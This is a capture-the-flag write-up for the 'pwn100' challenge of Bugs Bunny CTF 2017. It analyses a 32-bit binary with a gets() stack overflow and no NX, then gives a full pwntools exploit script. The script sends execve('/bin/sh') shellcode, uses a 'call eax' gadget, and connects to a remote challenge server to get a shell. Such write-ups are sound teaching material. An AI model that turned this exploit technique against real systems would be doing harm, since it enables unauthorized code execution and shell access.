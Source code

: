 ```yaml
---
title: pwn100
category: bugs_bunny ctf 2k17
author_member: muffinx
show_comments: false
---
```


Binary type (file linux command):

```
file pwn100
pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
```

Binary security measurements (gdb-peda checksec):

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The functionality is pretty straight forward:

```cpp
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  docopy();
  return 0;
}
```

So just a basic stack overflow.
The only function available to us is gets().
Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.

```
.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
```

So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.

When we look at the registers before the ret, we can see that eax actually points to our input.

```
EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
EBX: 0xf7fa3000 --> 0x16fda8
ECX: 0xfbad2288
EDX: 0xf7fa4864 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xffffd488 --> 0xffffd498 --> 0x0
ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
EIP: 0x804842e (<docopy+17>:	leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
=> 0x804842e <docopy+17>:	leave  
```

I found a ropgadget with that we can jump into our placed shellcode:

```
ropgadget --binary pwn100
0x08048386 : call eax
```

Resulting in this exploit:


```python
#!/usr/bin/env python

from pwn import *
context(arch = 'i386', os = 'linux')

#r = process('./pwn100')
r = remote('54.153.19.139', 5252)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0804842F
#continue
#''')

payload = asm('xor eax,eax')
payload += asm('xor ecx,ecx')
payload += asm('xor edx,edx')
payload += asm('xor esi,esi')
payload += asm('mov eax,0x0b')
payload += asm('lea ebx,[esp-8]')
payload += asm('int 0x80')
payload += '/bin/sh\x00'

payload = ('\x90' * (28-len(payload))) + payload
payload += p32(0x08048386) # call EAX


r.sendline(payload)
r.interactive()
```

As you can see I used the shellcoding features of pwntools to build a working shellcode.
The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
into ebx by using:

```
lea ebx,[esp-8]
```

Finally we got a shell:

```
$ cat /home/pwn100/flag
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
```

